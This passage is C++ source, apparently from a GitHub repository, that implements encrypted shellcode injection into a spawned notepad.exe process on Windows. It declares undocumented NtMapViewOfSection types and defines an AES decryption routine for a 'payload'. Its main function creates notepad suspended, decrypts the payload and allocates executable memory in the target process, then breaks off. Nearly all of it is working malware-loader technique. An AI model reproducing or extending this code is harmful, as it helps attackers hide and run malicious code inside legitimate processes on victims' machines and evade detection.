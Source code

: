 ```c++
// https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtMapViewOfSection.html
typedef NTSTATUS (NTAPI * NtMapViewOfSection_t)(
	HANDLE SectionHandle,
	HANDLE ProcessHandle,
	PVOID * BaseAddress,
	ULONG_PTR ZeroBits,
	SIZE_T CommitSize,
	PLARGE_INTEGER SectionOffset,
	PSIZE_T ViewSize,
	DWORD InheritDisposition,
	ULONG AllocationType,
	ULONG Win32Protect);
	
// http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FSECTION_INHERIT.html
typedef enum _SECTION_INHERIT {
	ViewShare = 1,
	ViewUnmap = 2
} SECTION_INHERIT, *PSECTION_INHERIT;	


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
	HCRYPTPROV hProv;
	HCRYPTHASH hHash;
	HCRYPTKEY hKey;
	if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
			return -1;
	}
	if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
			return -1;
	}
	if (!CryptHashData(hHash, (BYTE*) key, (DWORD) keylen, 0)){
			return -1;              
	}
	if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
			return -1;
	}
	if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payload_len)){
			return -1;
	}
	CryptReleaseContext(hProv, 0);
	CryptDestroyHash(hHash);
	CryptDestroyKey(hKey);
	return 0;
}


int main(void) {
	int pid = 0;
    HANDLE hProc = NULL;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
	void * pRemoteCode;
    ZeroMemory( &si, sizeof(si) );
    si.cb = sizeof(si);
    ZeroMemory( &pi, sizeof(pi) );
	CreateProcessA(0, "notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);
	printf("[injection] Process: %p \n\t notepadProcess %d \n\t notepadThread %d \n", GetCurrentProcess(), pi.hProcess, pi.hThread, payload, pRemoteCode);
	AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));	
	pRemoteCode = VirtualAllocEx(pi.hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
```
